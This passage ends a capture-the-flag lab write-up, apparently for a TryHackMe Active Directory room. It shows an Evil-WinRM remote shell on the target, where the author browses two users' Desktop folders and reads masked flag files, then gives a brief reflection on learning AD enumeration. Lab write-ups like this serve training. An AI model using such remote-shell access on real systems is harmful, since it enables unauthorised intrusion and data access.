 ```sh                                                                                                                
d-----        9/17/2020   4:02 PM                A***********r
d-----         4/4/2020  12:19 PM                b****p
d-----         4/4/2020   1:07 PM                b****p.THM-AD
d-r---         4/4/2020  11:19 AM                Public
d-----         4/4/2020  12:18 PM                s*******n


*Evil-WinRM* PS C:\Users> cd b****p
*Evil-WinRM* PS C:\Users\b****p> cd Desktop
*Evil-WinRM* PS C:\Users\b****p\Desktop> ls


    Directory: C:\Users\b****p\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:19 PM             26 PrivEsc.txt


*Evil-WinRM* PS C:\Users\b****p\Desktop> more PrivEsc.txt
T**********************y!}

*Evil-WinRM* PS C:\Users\b****p\Desktop> cd ../../s*******n/Desktop
*Evil-WinRM* PS C:\Users\s*******n\Desktop> ls


    Directory: C:\Users\ss*******n\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:18 PM             28 user.txt.txt


*Evil-WinRM* PS C:\Users\s*******n\Desktop> cat user.txt.txt
T************************h}
*Evil-WinRM* PS C:\Users\s*******n\Desktop> 
```

# Summary

I learnd a lot in this room about attackting the Active Directory. Some Tools i have used for the first time. So i had to goolge the usage of the tools. But now i have a better understanding how i can enumerate a windows Active Directory. 
